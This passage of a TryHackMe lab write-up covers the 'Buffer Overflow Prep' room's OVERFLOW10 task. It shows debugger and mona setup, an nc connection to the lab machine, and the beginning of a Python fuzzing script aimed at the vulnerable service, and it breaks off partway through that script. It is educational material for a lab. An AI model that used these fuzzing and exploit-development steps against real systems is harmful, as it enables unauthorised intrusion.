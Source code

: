 ```yaml
---
title: Buffer Overflow Prep Writeup || Tryhackme
date: 2025-1-28 00:00:00 +0800
categories: [Tryhackme, Offensive Pentesting Path]
tags: [tryhackme, writeup, walkthrough, buffer, overflow]     # TAG names should always be lowercase
description: This is a Writeup for Buffer Overflow Prep Room Which is a part of the offensive pentesting path on Tryhackme
---
```


In this writeup we will solve the "OVERFLOW10" part in this room

### Preparing The Environment

Start with opening the machine then RDP connect to it you will find the immunity debugger on the desktop right click on it and start as administrator.

Now open the **oscp.exe** which is on the desktop then click the red button to run it, and now the target is running on port 1337.

Connect to it via **nc** to make sure that it is accepting inputs and everything is working properly.

```
nc 10.10.112.53 1337
```

Then type **OVERFLOW10 test** and then you must get **OVERFLOW10 COMPLETE** now we know that everything is working properly terminate the connection and let's start.


## Mona Configuration

Mona is a script that can be used to automate and speed up specific searches while developing exploits it works on immunity debugger and it is preinstalled on our system we just need to Setting the working folder with this command (run in the command input box at the bottom of the Immunity Debugger window)
```
!mona config -set workingfolder c:\mona\%p
```
This ensures that all Mona-generated outputs (like logs, patterns, and offsets) are saved in a dedicated directory.

### Fuzzing

Create a file on your Kali with the following contents:

```
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.112.53"

port = 1337
timeout = 5
prefix = "OVERFLOW10 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
```